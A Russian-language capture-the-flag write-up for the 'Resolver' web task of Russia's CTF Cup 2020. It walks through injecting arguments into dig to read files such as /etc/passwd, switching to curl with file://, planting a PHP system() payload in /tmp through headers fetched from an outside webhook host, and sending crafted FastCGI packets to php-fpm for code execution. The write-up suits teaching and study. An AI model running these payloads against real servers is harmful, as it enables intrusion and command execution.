


# Тасковый этап Кубка CTF России 2020

## Web | Resolver

### Описание

> Если вы вдруг не знали, какой IP-адрес у вашего любимого сайта, моё новое приложение поможет вам его узнать!
> 
> (подсказка: первый флаг в `/tmp/flag.txt`)

### Решение

Таск состоял из двух частей: **Resolver I** и **Resolver II**, за решение каждой из которых можно было получить по флагу.

#### Resolver I — учимся читать файлы

Интерфейс программы довольно прост: нам предлагают ввести доменное имя и в ответ выдают его DNS-записи.



Для начала нужно определить, куда передаётся введённое имя. Можно предположить, что оно является аргументом какой-то функции или системной команды. Попробуем передавать разные значения в поле для ввода, чтобы понять, как они обрабатываются. Например, если передать `google.com yandex.ru`, сервер разрешит оба имени:

```
google.com.		261	IN	A	64.233.165.113
google.com.		261	IN	A	64.233.165.102
google.com.		261	IN	A	64.233.165.139
google.com.		261	IN	A	64.233.165.100
google.com.		261	IN	A	64.233.165.138
google.com.		261	IN	A	64.233.165.101
...
yandex.ru.		299	IN	AAAA	2a02:6b8:a::a
yandex.ru.		299	IN	A	77.88.55.88
yandex.ru.		299	IN	A	5.255.255.50
yandex.ru.		299	IN	A	5.255.255.5
yandex.ru.		299	IN	A	77.88.55.50
...
```

Если дальше пофаззить поле для ввода (например, отправив туда `-h`), то можно понять, что на сервере для разрешения доменов используется утилита `dig`, а мы имеем дело с уязвимостью, позволяющей добавлять ей произвольные аргументы:

```
Usage:  dig [@global-server] [domain] [q-type] [q-class] {q-opt}
            {global-d-opt} host [@local-server] {local-d-opt}
            [ host [@local-server] {local-d-opt} [...]]
...
```

В мануале к утилите `dig` сказано, что она умеет читать команды из файла с помощью параметра `-f`. Из описания мы знаем, что нужно прочитать файл `/tmp/flag.txt`, поэтому попробуем ввести в поле `-f /tmp/flag.txt`:

```
.			86396	IN	SOA	a.root-servers.net. nstld.verisign-grs.com. 2020112800 1800 900 604800 86400
```

Нам пришёл ответ, но из-за каких-то настроек `dig` на сервере мы не видим сами команды (то есть содержимое файла), которые исполнялись. Это ограничение можно было обойти несколькими путями: например, попытаться запросить ответ у несуществующего DNS-сервера, используя параметр `@0.0.0.0` (если на машине есть локальный DNS-сервер, дополнительно нужно отправить порт командой `-p1234`). Отправив команду `@0.0.0.0 -f /tmp/flag.txt`, мы вызовем ошибку `dig` и получим первый флаг:

```
;; Connection to 0.0.0.0#53(0.0.0.0) for ctfcup{y0_y0_c4ll_m3_th3_DNS_c4tch3r} failed: connection refused.
```

Вот и первая уязвимость — чтение произвольных файлов на сервере.

---

#### Resolver II

Отлично, теперь мы умеем читать произвольные файлы. Проблема только в том, что `dig` интерпретирует файлы как набор команд, поэтому в тексте ошибки файл отображается немного искажённым — он разбивается по пробельным символам. Вот так, например, выглядит вывод `@0.0.0.0 -f /etc/passwd`:

```
;; Connection to 0.0.0.0#53(0.0.0.0) for root:x:0:0:root:/root:/bin/bash failed: connection refused.
;; Connection to 0.0.0.0#53(0.0.0.0) for daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin failed: connection refused.
;; Connection to 0.0.0.0#53(0.0.0.0) for bin:x:2:2:bin:/bin:/usr/sbin/nologin failed: connection refused.
;; Connection to 0.0.0.0#53(0.0.0.0) for sys:x:3:3:sys:/dev:/usr/sbin/nologin failed: connection refused.
;; Connection to 0.0.0.0#53(0.0.0.0) for sync:x:4:65534:sync:/bin:/bin/sync failed: connection refused.
...
```

Очевидно, что это не проблема, так как можно написать скрипт, который убирает лишние данные из вывода и собирает исходный файл. Пробельные символы мы потеряем, но основное содержимое сможем получить.

Так как больше никаких указаний по местоположению флага нет, нам нужно научиться получать листинг директорий, чтобы самостоятельно найти флаг. В идеале — получить RCE.

Для начала разберёмся с тем, какое веб-приложение на сервере обрабатывает наши запросы и запускает `dig`. Для этих целей удобно использовать файловую систему `/proc/` — она содержит информацию о запущенных процессах ОС.

Начнём с файла `/proc/self/status` — для нас он полезен тем, что содержит имя текущего процесса, его Pid и PPid (Pid родительского процесса). Зная эту информацию, мы сможем по родительским процессам подняться от `dig` до веб-приложения, которое его запускает:

_Здесь и далее я буду приводить уже собранный вывод, чтобы было удобнее читать. Пример того, как собирать файл из вывода ошибки `dig`, находится в сплоите._

```
Name: dig
Umask: 0022
State: R (running)
Tgid: 83
Ngid: 0
Pid: 83
PPid: 82
...
```

Мы видим, что Pid запускаемого процесса равен 83, а его PPid — 82. Прочитаем `/proc/self/status` несколько раз, чтобы посмотреть на изменения Pid и PPid:

```
Name: dig
Umask: 0022
State: R (running)
Tgid: 88
Ngid: 0
Pid: 88
PPid: 87
...
```

```
Name: dig
Umask: 0022
State: R (running)
Tgid: 93
Ngid: 0
Pid: 93
PPid: 92
...
```

```
Name: dig
Umask: 0022
State: R (running)
Tgid: 98
Ngid: 0
Pid: 98
PPid: 97
...
```

Можно заметить, что с каждым запросом Pid и PPid увеличиваются на 5. У всех участников были отдельные инстансы сервиса, поэтому между нашими запросами сервис никто не трогал.

Теперь попробуем прочитать `status` у родительского процесса. Зная, что последний PPid был равен 97, и что он каждый раз увеличивается на 5, можно высчитать Pid следующего родительского процесса: `97 + 5 == 102`. Следующим запросом прочитаем `/proc/102/status`:

```
Name: sh
Umask: 0022
State: S (sleeping)
Tgid: 102
Ngid: 0
Pid: 102
PPid: 9
...
```

Родительский процесс для нашего `dig` — процесс `sh`. Это значит, что `dig` запускается командой вроде `sh -c "dig ..."`, обычно такие вещи возникают при вызове функций, подобных `system`. Обратим внимание на PPid для `sh` — он равен 9. Довольно маленькое число, по сравнению с остальными. Это значит, что при запросе не был создан процесс с Pid 9, потому что иначе новый процесс бы получил большой Pid (в районе 100, как и сам `sh`). Процесс с Pid 9 жил всё время, пока создавались новые процессы, значит, это какой-то долгоживущий процесс, который, вероятно, и является обработчиком. Попробуем запросить `/proc/9/status`:

```
Name: php-fpm7.4
Umask: 0022
State: S (sleeping)
Tgid: 9
Ngid: 0
Pid: 9
PPid: 6
...
```

Родительский процесс для `sh` — это `php-fpm7.4`. Для тех, кто мало знаком с PHP, напомню, что обычно веб-сервер, который обрабатывает HTTP-запросы, не исполняет PHP-код сам, вместо этого он отправляет запрос на исполнение PHP-кода каким-то другим процессам или сервисам (чаще всего взаимодействие между ними происходит по протоколу CGI). `php-fpm7.4` — это как раз такой процесс, который просто исполняет PHP-код и возвращает результат веб-серверу.

---

Вся эта магия с `/proc/<>/status` и Pid/PPid нужна была для одной цели — понять, что серверный скрипт написан на PHP, и наши запросы обрабатывает `php-fpm7.4`. Зная это, мы можем попробовать добраться до исходного кода скрипта на PHP и до конфигурации `php-fpm7.4`.

Чтобы получить исходный код, нужна была некоторая интуиция и опыт в подобных вещах. Имя файла с исходным кодом на PHP — единственное, что мы не можем (_я не придумал как_) получить, имея способность читать произвольные файлы. Но, скорее всего, для тех, кто решал этот таск, угадать имя файла не составило труда: файл назывался `index.php`, это стандартное название. Попробуем его прочитать напрямую командой `@0.0.0.0 -f index.php`:

_Мой метод, основанный на ошибках `dig`, возвращает файл без переводов строк, но файл остаётся читаемым._

```
<html> <head> <title>Resolver</title> </head> <body style="text-align: center"> <h1>Resolver</h1> <form method="GET" action="/"> Host: <input type="text" name="hostname" value="<?php if (isset($_GET["hostname"])) { echo htmlspecialchars($_GET["hostname"]); } else { echo "google.com"; } ?>"> <?php if (isset($_GET["usecurl"])) { echo " <input type=\"hidden\" name=\"usecurl\" value=\"1\">\n"; } ?> <input type="submit" value="Resolve"> <br> </form> <textarea id="result" style="width: 1000px; height: 500px;"> <?php . if (isset($_GET["hostname"])) { $hostname = $_GET["hostname"]; . if (strlen($hostname) === 0) { die("invalid hostname\n"); } . if (isset($_GET["usecurl"])) { $program = "curl"; } else { $program = "dig"; } . $command = "/usr/bin/" . $program . " . passthru(escapeshellcmd($command)); } . ?> </textarea> </body> </html>
```

Если разобрать исходный код, можно увидеть, что, кроме `dig`, мы также можем запускать программу `curl`, если передадим специальный GET-параметр `?usecurl=1`. Для нас `curl` удобнее, потому что он может выводить файлы без искажений. Чтобы прочитать какой-либо файл с помощью `curl`, к нему можно обратиться по специальному протоколу `file://`. Например, можно прочитать файл `/etc/passwd`, обратившись к нему как `file:///etc/passwd` (не забыв указать GET-параметр `?usecurl=1`):

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

Из исходного кода `index.php` мы больше ничего не можем получить: аргументы для `dig` хорошо защищены PHP-функцией `escapeshellcmd`. Значит, надо искать какой-то другой способ получения RCE.

---

Мы помним, что PHP-скрипты обрабатываются процессом `php-fpm7.4`, а сам этот процесс управляется веб-сервером по протоколу CGI. При этом передача параметров в `php-fpm7.4` для исполнения PHP-кода передаётся по сокету: это может быть как файловый сокет, так и TCP-сокет. Если мы узнаем, как `php-fpm7.4` принимает параметры, мы сможем попробовать передать их сами, используя `curl`, и таким образом мы сможем выполнить произвольный PHP-код, то есть получим RCE.

Нам нужно узнать конфигурацию `php-fpm7.4`, она может быть определена в двух местах: в аргументах самого процесса `php-fpm7.4` и в конфигурационных файлах в директории `/etc/`. Я опишу оба эти способа.

**Способ 1: чтение конфигурационных файлов в `/etc/`.**

Нас интересует файл `php-fpm.conf`, который описывает настройку процесса `php-fpm7.4`.

У разных версий PHP местоположение файлов конфигурации может различаться. Обычно они лежат в директории `/etc/php/<version>/`, и так как мы знаем версию, то нужный нам файл скорее всего лежит по пути `/etc/php/7.4/fpm/php-fpm.conf`. Но чтобы точно в этом убедиться, можно локально поставить нужную версию системы (прочитав её из `/etc/lsb-release`) и установить туда `php-fpm7.4`. Попробуем прочитать файл:

```
[global]
log_level = warning
error_log = syslog

[www]
user = resolver
group = resolver
listen = 0.0.0.0:31337

pm = dynamic
pm.max_children = 20
pm.start_servers = 5
pm.min_spare_servers = 1
pm.max_spare_servers = 10
```

Из всех настроек нас больше всего интересует `listen = 0.0.0.0:31337` — теперь мы знаем, какой именно сокет слушает процесс `php-fpm7.4`, и мы сможем взаимодействовать с этим сокетом с помощью `curl`. Но настройки из файла `php-fpm.conf` могут быть переопределены в аргументах самого процесса, поэтому надёжнее будет также достать их.

**Способ 2: чтение аргументов процесса `php-fpm7.4`**

Для того, чтобы узнать, как запускается `php-fpm7.4`, нам придётся вернуться к магии с `/proc/`, но на этот раз мы будем читать не только `status`, но и `cmdline` — это специальный файл, который показывает с какими аргументами был запущен процесс.

Мы помним, что Pid `php-fpm7.4` был равен 9, но при чтении `/proc/9/cmdline` мы получим что-то странное:

```
php-fpm: pool www        
```

Это означает, что процесс `php-fpm7.4` с Pid 9 был запущен каким-то другим процессом `php-fpm7.4` и является по сути всего лишь worker-ом, который используется для исполнения скриптов и распределения нагрузки. Значит, нужно узнать Pid родительского процесса, прочитав `/proc/9/status`:

```
Name:	php-fpm7.4
Umask:	0022
State:	S (sleeping)
Tgid:	9
Ngid:	0
Pid:	9
PPid:	6
...
```

PPid равен 6, теперь попробуем прочитать `/proc/6/status`:

```
Name:	php-fpm7.4
Umask:	0022
State:	S (sleeping)
Tgid:	6
Ngid:	0
Pid:	6
PPid:	1
...
```

Ожидаемо, что родительский процесс тоже является процессом `php-fpm7.4`. Интересно, что его PPid равен 1, то есть он запущен уже инициализирующим процессом. Прочитаем `/proc/6/cmdline`:

```
php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
```

Мы видим, что его конфигурация определена в файле `/etc/php/7.4/fpm/php-fpm.conf`, который мы уже видели. Для полноты картины можно прочитать `cmdline` у процесса с Pid 1 и посмотреть, как `php-fpm: master process` запускался:

```
/bin/sh -c php-fpm7.4 -F -O -y /etc/php/7.4/fpm/php-fpm.conf -c /etc/php/7.4/fpm/php.ini
```

Мы снова видим тот же самый конфигурационный файл, который принудительно указали в аргументах для процесса `php-fpm7.4`. 

---

Отлично, теперь мы знаем, что процессы `php-fpm7.4` слушают сокет `0.0.0.0:31337` и читают оттуда команды для исполнения. Мы можем сами собрать CGI-пакет и передать его в сокет, используя `curl`. Протокол CGI бинарный, поэтому нам придётся передавать сырые байты. Для этой цели подходит, например, протокол `gopher://`, реализованный в `curl`. Но какие данные нужно передавать? 

У CGI есть много параметров ([вот их список](http://www.faqs.org/rfcs/rfc3875.html)), но нас интересуют всего три:

- **REQUEST_METHOD** — название HTTP-метода (GET, POST, ...)
- **SCRIPT_FILENAME** — имя файла со скриптом, который нужно исполнить
- **PHP_ADMIN_VALUE** — специальный параметр PHP, который отвечает за передачу конфигурационных опций для PHP

Таким образом, если у нас в системе будет файл со скриптом на PHP, в котором будет лежать наш код, то мы сможем исполнить этот код через передачу специального пакета в CGI-сокет. Осталось придумать, как создать нужный файл. Один из способов — использовать возможности `curl`. В мануале к `curl` описан специальный параметр, который позволяет записать заголовки ответа в файл:

```
-D, --dump-header <filename> Write the received headers to <filename>
```

Для того, чтобы сделать такой URL, который в заголовках ответа будет возвращать нужные нам данные, можно использовать сервис [Webhook.site](https://webhook.site/). Например, мы хотим, чтобы сервер возвращал `<?php system('id > /tmp/result'); ?>`:



Теперь попробуем передать нашему сервису `<webhook_url> -D /tmp/exploit.php` и затем прочитать файл `/tmp/exploit.php`. К счастью, у нас есть права на запись в директорию `/tmp/` (обычно они есть у всех пользователей), и файл запишется. Кстати, это уже вторая уязвимость — запись (почти) произвольных файлов на сервере:

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Content-Type: <?php system("id > /tmp/result"); ?>
Transfer-Encoding: chunked
X-Request-Id: 9132decf-25ac-43e9-ad81-0f4cf27f2593
...
```

Теперь в системе есть файл `/tmp/exploit.php`, в котором лежит наш код на PHP. Нужно придумать, как заставить `php-fpm7.4` его исполнить. Я не буду описывать весь протокол CGI, можно самостоятельно найти его спецификацию в интернете. Нас интересует только алгоритм работы `php-fpm7.4`, который удобнее всего посмотреть в исходниках самого PHP (или также найти в интернете): 

- [php-fpm/cgi/fastcgi.c](https://github.com/dreamcat4/php-fpm/blob/master/cgi/fastcgi.c) — файл, описывающий работу протокола CGI 
- [php-fpm/cgi/fastcgi.h](https://github.com/dreamcat4/php-fpm/blob/master/cgi/fastcgi.h) — файл, описывающий формат пакетов CGI

Нам осталось только научиться собирать CGI-пакет с нагрузкой (пример тоже есть в сплоите) и передать его в сокет `php-fpm7.4` со следующими CGI-параметры:

- `REQUEST_METHOD: GET`
- `SCRIPT_FILENAME: /tmp/exploit.php` — указываем имя файла
- `PHP_ADMIN_VALUE: open_basedir=/tmp/` — задаём корневую директорию PHP (без этой опции может не работать, так как часто на серверах PHP ограничивают внутри какой-то одной директории)

Передаём их и читаем файл `/tmp/result` — там будет результат выполнения нашей программы. Мы исполняли команду `id` и получили следующий результат:

```
uid=1000(resolver) gid=1000(resolver) groups=1000(resolver)
```

Отлично, это третья и последняя уязвимость — выполнение произвольного кода на сервере. Ищем второй флаг c помощью листинга директорий и находим его так же в `/tmp/`:

```
ctfcup{w0w_1ns4n3_p4ck3ts_cr4ft3r}
```
